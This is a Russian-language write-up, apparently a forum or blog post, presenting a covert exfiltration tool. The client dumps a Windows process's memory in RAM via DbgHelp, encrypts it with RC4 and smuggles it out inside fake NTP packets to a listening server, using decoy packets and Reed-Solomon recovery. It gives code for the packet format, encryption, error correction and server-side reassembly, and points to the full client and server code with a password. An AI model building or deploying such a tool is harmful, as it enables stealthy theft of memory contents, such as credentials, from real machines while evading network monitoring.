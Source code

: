 ### Реализация скрытой эксфильтрации дампа памяти через NTP
Два основных компонента клиент и сервер. Клиентская часть отвечает за сбор дампа памяти процесса win, его сжатие, фрагментацию и шифрование, после чего отсылаются замаскированные пакеты, все операции выполняются полностью в оперативке, без следов на диске. Пакеты формируются так, что их внешний вид соответствует ntp трафику, чтобы увести подозрения при анализе. Серверная часть слушает заданный порт, принимает пакеты, извлекает полезную нагрузку, проводит расшифровку и декодирование для восстановления дампа. Рассмотрим работу каждого компонента по отдельности:

## Начнём с клиента
### Формирование/упаковка/отправка payload и шифрование
На клиентской стороне исходные данные, полученные в результате дампа процесса(использует win api для перебора запущенных процессов и поиска pid процесса во время выполнения, дампится напрямую в оперативку с помощью DbgHelp), сначала сжимаются с помощью zlib и затем разбиваются на фрагменты фиксированного размера, по 2 байта полезной информации на фрагмент. Для каждого фрагмента вычисляется число, которое объединяет 16 бит номера фрагмента и 16 бит самих данных. Итого, получается 32 битное значение, которое дальше шифруется.

frag = val & 0xFFFF  # данные фрагмента
seq = val >> 16      # номер фрагмента
data_bytes = frag.to_bytes(2, 'big')
plain = ((seq & 0xFFFF) << 16) | int.from_bytes(data_bytes, 'big')
plain_bytes = [
    (plain >> 24) & 0xFF,
    (plain >> 16) & 0xFF,
    (plain >> 8)  & 0xFF,
    plain         & 0xFF
]

Для шифрования используется классическая схема rc4. Но! перед тем как сгенерировать основной поток, сначала делаем скип, то есть пропускаем некоторое количество байтов, вычисляемых как функция номера фрагмента (seq * 7) & 0xFF
Суть в том, что сначала генерируются лишние байты, чтобы сдвинуть состояние, а затем уже шифруется нужный блок, где в старших 16 битах номер, а в младших данные.

#### Формирование пака

Готовый зашифрованный блок пакуется в структуру ntp пакета, зашифрованные данные копируются в transmit timestamp пакета.

def CreateNTPPacket(payload):
    packet = bytearray(48)
    packet[0] = 0x1B  # LI=0, VN=3, Mode=3
    packet[40:48] = payload  # вставляем нагруз ВАЖНО с 40 по 47!
    return packet

Каждый пакет снабжается временным штампом, вычисленым на основе текущего времени с добавлением случайного шума:

unsigned int current_ntp = (unsigned int)(time(NULL) + 2208988800UL + (rand() % 20));
payload[0] = (current_ntp >> 24) & 0xFF;
payload[1] = (current_ntp >> 16) & 0xFF;
payload[2] = (current_ntp >> 8)  & 0xFF;
payload[3] = current_ntp & 0xFF;

После формирования пакета клиент отправляет его через udp сокет. Иногда вместо реальных фрагментов, клиент генерирует декой пакеты со случайными временными метками и данными.
Каждые block_size фрагментов объединяются в блок для вычисления фрагментов чётности с использованием rs кодирования. Для каждого блока генерируются равное число паритет фрагментов. Кодирование работает по полю gf 256.
На клиенте используются два массива для быстрого умножения элементов в поле. Вычисляется на базе полинома 0x11d:

void init_gf() {
    unsigned char x = 1;
    for (int i = 0; i < 255; i++) {
        gf_exp[i] = x; // Первый мас gf_exp
        gf_log[x] = i; // Второй gf_log
        x <<= 1;
        if (x & 0x100)
            x ^= 0x11d;
    }
    for (int i = 255; i < 512; i++) {
        gf_exp[i] = gf_exp[i - 255];
    }
}

Умножение выполняется таким образом:

unsigned char gf_mul(unsigned char a, unsigned char b) {
    if (a == 0 || b == 0)
        return 0;
    int log_a = gf_log[a];
    int log_b = gf_log[b];
    int log_result = log_a + log_b;
    return gf_exp[log_result % 255];
}

Генерация паритетных символов для кодирования работает так, для каждого j от 0 до m1 вычисляем parity[j] = Σ data[i] * (alpha^(i*(j+1)))
по gf. Кодировка выглядит так:

void rs_encode_block(const unsigned char *data, int k, unsigned char *parity, int m) {
    for (int j = 0; j < m; j++) {
        parity[j] = 0;
        for (int i = 0; i < k; i++) {
            unsigned char coefficient = gf_exp[(i * (j + 1)) % 255];
            parity[j] ^= gf_mul(data[i], coefficient);
        }
    }
}

## Теперь про сервер

Сервер слушает заданный порт и ожидает получения пакетов. При поступлении пакета первая задача извлечь полезную нагрузку c 40 по 47 байт.

data, addr = sock.recvfrom(1024)
if len(data) >= 48:
    payload = data[40:48]  # дёргаем первые 8

Сервер в первых 8 байтах получает информацию об общем числе фрагментов и размере сжатого дампа эти данные потом используются для сборки полного дампа.

Для расшифровки каждого пакета применяется такой же как на клиенте алгоритм шифрования со скипами. Он перебирает значения скип от 0 до 255, пытаясь расшифровать и сравнивая номер фрагмента с ожидаемым значением. Для обычных data паков номер должен быть меньше общего числа фрагментов, а для fec паков наоборот. Вот как определяем скипы:

def deduce_skip(encrypted, key, total_fragments, is_fec=False):
    for skip in range(256):
        val, _ = try_decrypt(encrypted, key, skip)
        if not is_fec:
            if (val >> 16) < total_fragments:
                return skip, val
        else:
            if (val >> 16) >= total_fragments:
                return skip, val
    return None, None

Если скип определить удалось, сервер извлекает данные:

# Для обычного data пакa:
skip, val = deduce_skip(encrypted, RC4_KEY, total_fragments, is_fec=False)
if skip is not None:
    seq = val >> 16
    frag = val & 0xFFFF
    data_packets[seq] = frag.to_bytes(2, 'big')

Для fec пака аналогично определяется номер блока и индекс в блоке, после чего данные кладутся для последующего декодирования.

### Восстановление данных и декодирование
Если какие то фрагменты потерялись, сервер собирает данные по блокам и применяет декодирование для восстановления недостающих байтов. Для каждого блока на каждой из двух позиций формируется система на основе имеющихся данных и фрагментов. После того как декодирование восстанавливает недостающие фрагменты, сервер получает полную картину, распаковывает сжатый дамп и если всё в порядке, сохраняет его в файл. Если восстановление не удалось, сохраняется хотя бы сжатая версия.


def rs_decode_block(block_data, fec_data, k_block):
    eq = build_equations(block_data, fec_data, k_block, pos=0)
    if len(eq) < k_block:
        raise ValueError("Pas assez d'équations pour résoudre RS")
    sol0 = rs_solve(eq[:k_block], k_block)

    eq = build_equations(block_data, fec_data, k_block, pos=1)
    sol1 = rs_solve(eq[:k_block], k_block)
    recovered = {}
    for i in range(k_block):
        if i not in block_data:
            recovered[i] = bytes([sol0[i], sol1[i]])
    return recovered

### Ретрансмиссии

Если после приёма не все фрагменты получены, сервер отправляет фидбэк через отдельный порт. В обратном сообщении передаётся количество недостающих фрагментов и их номера, чтобы клиент мог заново передать отсутствующие данные. Код для определения недостающих фрагментов выглядит следующим образом:

missing_fragments = [i for i in range(total_fragments) if i not in data_packets]
if missing_fragments and sender_addr:
    feedback = struct.pack(">I", len(missing_fragments))
    for seq in missing_fragments:
        feedback += struct.pack(">I", seq)
    # Отправка фидбэка через указанный порт

На стороне клиента реализован цикл повторных попыток с лимитом, в ходе которого недостающие фрагменты отправляются снова.

Полные коды клиент/сервер и скрипты автоматизации с подробными комментариями:
pas: valde
